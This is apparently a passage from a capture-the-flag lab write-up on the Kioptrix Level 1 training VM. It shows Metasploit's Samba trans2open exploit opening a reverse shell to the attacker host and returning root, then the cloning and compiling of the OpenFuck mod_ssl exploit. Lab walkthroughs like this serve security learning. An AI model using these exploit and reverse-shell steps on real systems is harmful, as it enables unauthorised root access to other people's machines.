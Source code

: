 ```bash
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  192.168.88.128   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


msf5 exploit(linux/samba/trans2open) > run

[*] Started reverse TCP handler on 192.168.88.128:4444
[*] 192.168.88.129:139 - Trying return address 0xbffffdfc...
[*] 192.168.88.129:139 - Trying return address 0xbffffcfc...
[*] 192.168.88.129:139 - Trying return address 0xbffffbfc...
[*] 192.168.88.129:139 - Trying return address 0xbffffafc...
[*] Command shell session 5 opened (192.168.88.128:4444 -> 192.168.88.129:32804) at 2020-01-02 18:14:44 +0100

whoami
root
hostname
kioptrix.level1
```

#### OpenFuck

```bash
root@kali:/opt# git clone https://github.com/heltonWernik/OpenLuck
Cloning into 'OpenLuck'...
remote: Enumerating objects: 22, done.
remote: Total 22 (delta 0), reused 0 (delta 0), pack-reused 22
Unpacking objects: 100% (22/22), done.
root@kali:/opt# cd OpenLuck/
root@kali:/opt/OpenLuck# ls
OpenFuck.c  README.md
root@kali:/opt/OpenLuck# apt install libssl-dev;gcc -o OpenFuck OpenFuck.c -lcrypto
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following packages were automatically installed and are no longer required:
  libayatana-ido3-0.4-0 libbfio1 libdvdread4 libhogweed4 libhwloc5 libisl21 libjim0.77 libjte1 libnettle6 libobjc-9-dev python-magic python-paramiko python-pefile
  python-qrcode
Use 'apt autoremove' to remove them.
Suggested packages:
  libssl-doc
The following NEW packages will be installed:
  libssl-dev
0 upgraded, 1 newly installed, 0 to remove and 62 not upgraded.
Need to get 1,797 kB of archives.
After this operation, 8,095 kB of additional disk space will be used.
Get:1 http://ftp2.nluug.nl/os/Linux/distr/kali kali-rolling/main amd64 libssl-dev amd64 1.1.1d-2 [1,797 kB]
Fetched 1,797 kB in 1s (2,965 kB/s)
Selecting previously unselected package libssl-dev:amd64.
(Reading database ... 311173 files and directories currently installed.)
Preparing to unpack .../libssl-dev_1.1.1d-2_amd64.deb ...
Unpacking libssl-dev:amd64 (1.1.1d-2) ...
Setting up libssl-dev:amd64 (1.1.1d-2) ...
```